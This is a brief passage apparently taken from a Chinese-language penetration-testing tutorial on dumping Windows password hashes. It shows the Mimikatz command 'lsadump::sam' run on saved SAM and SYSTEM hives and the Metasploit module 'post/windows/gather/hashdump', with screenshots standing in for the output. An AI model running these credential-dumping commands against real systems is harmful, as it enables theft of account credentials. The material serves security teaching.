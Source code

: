 [![image.png](assets/1698894155-c1547a590d3b9d46910800290c07e659.png)](https://storage.tttang.com/media/attachment/2022/09/30/24db06ba-d311-4922-b8df-5ee930539153.png)

之后通过Mimikatz来获取信息：

lsadump::sam /sam:sam.hive /system:system.hive

[![image.png](assets/1698894155-0c5261cc016d2ac58f9e390b4b9e5073.png)](https://storage.tttang.com/media/attachment/2022/09/30/bb56f00c-3624-411c-b052-4d720b179290.png)

##### [Metasploit](#toc_metasploit)

run post/windows/gather/hashdump

[![image.png](assets/1698894155-d45b99576f88628b2169dc75bf66cb6a.png)](https://storage.tttang.com/media/attachment/2022/09/30/2f5e937b-7781-4c04-8a34-479aa6e7ff55.png)
